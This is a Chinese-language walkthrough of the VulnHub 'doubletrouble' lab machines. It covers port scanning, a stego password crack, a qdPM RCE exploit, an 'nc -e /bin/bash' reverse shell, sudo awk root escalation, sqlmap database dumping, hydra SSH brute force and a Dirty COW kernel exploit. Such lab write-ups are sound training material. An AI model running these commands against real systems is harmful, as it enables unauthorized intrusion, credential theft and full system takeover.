

# 复盘*

## 靶机地址

[doubletrouble: 1 ~ VulnHub](https://www.vulnhub.com/entry/doubletrouble-1,743/)


## 信息收集


### nmap扫描

#### 主机探测

```
nmap -sn 192.168.1.0/24
```


#### nmap三次扫描（端口扫描，详细结果扫描，udp扫描）

##### 利用脚本扫描

```
#!/bin/bash
dir="./nmapscan/"
if [ ! -d $dir ];then
        mkdir -p $dir
fi
target=$1
portscan(){
        nmap -sT --min-rate 10000 -p- $target -oA ${dir}ports > /dev/null 2>&1
}
portscan
ports=$(cat ${dir}ports.nmap | grep open | awk -F / '{print $1}' | paste -sd,)
detailscan(){
        nmap -sC -sV -sT -Pn -O -p $ports $target -oA ${dir}detail > /dev/null 2>&1
}
udpscan(){
        nmap -sU --top-ports 20 $target -oA ${dir}udp > /dev/null 2>&1
}
detailscan
udpscan
cat ${dir}detail.nmap
cat ${dir}udp.nmap

```


- 定义扫描结果存放路径：当前路径下的nmapscan

- 如果不存在该路径则创建
- 定义target用来接收ip
- 定义端口扫描函数，且不输出扫描结果
- 执行扫描
- 提取扫描结果中的端口信息
- 定义详细结果扫描函数，不输出信息
- 定义udp扫描函数
- 执行详细结果扫描并查看扫描结果


##### 移动目录

```
sudo mv scan /usr/local/bin
```


##### 修改权限

```
sudo chmd 777 /usr/local/bin/scan
```


##### 执行扫描

##### 详细结果扫描

```
scan 192.168.1.12
```


分析：

- 22 ssh服务 OpenSSH 7.9p1
- 80 htp Apache httpd 2.4.38
- qdPM CMS


### 80 端口

#### 访问192.168.1.12


登陆界面

用户名为邮箱地址（很难爆破）

查看源码，无信息

但是下面提示了qdPM 9.1


#### 搜索相关漏洞

```
sudo searchsploit qdPM 9.1
```


存在rce


#### 下载脚本

```
sudo searchsploit -m php/webapps/50944.py
```


需要提供参数，用户名，密码

其中用户名任意权限的都可以

但是没有注册页面


#### dirsearch扫描目录

```
dirsearch -u 192.168.1.12
```


分析：

- backups
- images
- readme.txt
- robots.txt
- secret
- uploads


逐个访问


无内容


图标信息


指明为qdPMCMS


无内容


存在doubletrouble.jpg




无内容


#### 下载图片

```
wget http://192.168.1.12/secret/doubletrouble.jpg
```


#### steghide检测是否存在隐写

```
steghide info doubletrouble.jpg
```


存在隐写数据


#### 利用stegseek爆破

https://github.com/RickdeJager/stegseek

```
stegseek -sf doubletrouble.jpg -wl /usr/share/wordlists/rockyou.txt
```


得到密码92camaro


#### steghide提取数据

```
steghide extract -sf doubletrouble.jpg -p 92camaro
```


```
cat creds.txt
```


得到用户名和密码


#### 利用exp

```
python 50944.py -url http://192.168.1.12/ -u otisrush@localhost.com -p otis666
```


给出后门地址

直接访问


#### 反弹shell

```
which nc
```


```
nc -lvp
```


```
cmd=nc -e /bin/bash 192.168.1.3 283
```


成功弹回shell


#### python转换终端

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


## 提权

### 查看/etc/passwd

```
cat /etc/passwd
```


### suid位查找

```
find / -user root -perm -4000 2>/dev/null
```


### 执行sudo -l

```
sudo -l
```


无密码执行awk


### awk提权

```
sudo awk 'BEGIN {system("/bin/sh")}'
```


### 成功提权

```
cd /root
ls
```


发现还有一台机器

### 拷贝机器到web服务器

```
cp doubletrouble.ova /var/www/html
```


### 赋予权限

```
ls -al /var/www/html
chmod 777 /var/www/html/doubletrouble.ova
```


### 浏览器下载


（但是后续我导入虚拟机的时候报错，应该是文件损坏）


### 尝试通过scp互传文件

```
scp doubletrouble.ova ra1n3@192.168.1.3:/home/ra1n3/tmp/
```


## 信息收集

### 主机探测

```
nmap -sn 192.168.1.0/24
```


确定第二台靶机ip

192.168.1.11


### nmap扫描

#### 详细扫描结果


分析 

- 22 ssh  OpenSSH 6.0p1 
- 80 http Apache httpd


#### udp扫描结果


### 八零端口

#### 访问192.168.1.11


查看源码，无发现


#### 尝试sqlmap

抓包


保存到sql文件夹

尝试读取数据库

```
sqlmap -l sql --batch --dbs
```


得到两个数据库

尝试读取表

```
sqlmap -l sql --batch -D doubletrouble --tables
```


尝试读取字段名

```
sqlmap -l sql --batch -D doubletrouble -T users --columns
```


提取字段数据

```
sqlmap -l sql --batch -D doubletrouble -T users -C "username,password" --dump
```


#### 处理数据，制作字典

```
cat /home/ra1n3/.local/share/sqlmap/output/192.168.1.11/dump/doubletrouble/users.csv | tail -n +2 | sed  's/,/\n/' > user.txt
```


### 22 端口

#### hydra爆破ssh

```
hydra -L user.txt -P user.txt ssh://192.168.1.11
```


#### ssh登录


## 提权

### 得到第一个flag

```
ls
cat user.txt
```


### 执行sudo -l

```
sudo -l
```


### suid查找

```
find / -user root -perm -4000 2>/dev/null
```


exim4


### 查看版本信息

```
/usr/sbin/exim4 -v
```


4.80


### 搜索相关漏洞

```
sudo searchsploit exim 4.8
```


没有合适的提权漏洞


### 上传les.sh

```
wget 192.168.1.3/les.sh
```


### 执行les.sh


### 尝试脏牛提权


#### 靶机中wget下载失败

```
wget https://www.exploit-db.com/download/40839
```


#### windows下载然后scp拷贝

```
scp 40839.c clapton@192.168.1.11:/home/clapton
```


#### 查看exp

```
cat 40839.c
```


也就是该程序执行时需要欸他一个新的密码，然后创建用户名为firefart的rot用户，运行后成功，可以切换到该用户


#### 编译

```
gcc -pthread 40839.c -o dirty -lcrypt
```


```
./dirty
su firefart
```


#### 得到第二个flag

```
cd /root
ls
cat root.txt
```

